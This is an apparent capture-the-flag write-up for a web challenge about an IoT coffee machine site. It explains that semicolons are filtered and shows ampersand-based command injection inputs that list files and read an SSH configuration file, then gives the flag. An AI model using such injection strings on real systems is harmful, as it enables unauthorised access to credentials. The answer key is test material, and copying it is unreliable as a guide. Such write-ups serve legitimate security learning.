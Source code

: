 ## Web Hard 1
#### Description
The IOT office coffee machine has gone haywire, see https://jrotc-wh01.allyourbases.co. It's constantly pouring out coffee and generally a very poor quality machine! Apparently it's not that secure either, can you get information from it?
#### Solution
Very simple command injection, but they're filtering semicolon. Give it an ampersand with your command afterwords.
```
asdf & ls
asdf & cat config_ssh.txt
```
#### Flag
`IOTweakPo1nt`
